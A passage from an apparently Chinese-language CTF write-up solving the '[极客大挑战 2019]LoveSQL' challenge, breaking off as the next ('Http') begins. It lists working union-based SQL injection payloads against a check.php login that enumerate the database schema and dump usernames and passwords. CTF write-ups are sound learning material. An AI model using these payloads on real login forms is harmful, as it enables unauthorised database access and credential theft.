 > ![在这里插入图片描述](img/97f3617f8e6ed18508211734841782c9.png)

### [极客大挑战 2019]LoveSQL

> 打开网页，测试了一下发现是字符型注入
> 相对于来说较为容易，那么这里我就直接给出payload

判断字段

```
/check.php?username=admin%27order by 3%23&password=admin 
```

判断版本和数据库

```
/check.php?username=admin%27union select 1,version(),database()%23&password=admin 
```

判断表名，通过limit关键字确定有俩个表名

```
/check.php?username=admin%27union select 1,unhex(Hex(cast(table_name as char))),3 from information_schema.tables where table_schema='geek'%23&password=admin 
```

判断字段名，username和password

```
/check.php?username=admin%27union select 1,unhex(Hex(cast(column_name as char))),3 from information_schema.columns where table_name='love1ysq1'%23&password=admin 
```

爆出flag

```
/check.php?username=1' union select 1,2,group_concat(concat_ws(0x7e,username,password)) from geek.l0ve1ysq1 %23&password=1 
```

### [极客大挑战 2019]Http

> 打开网页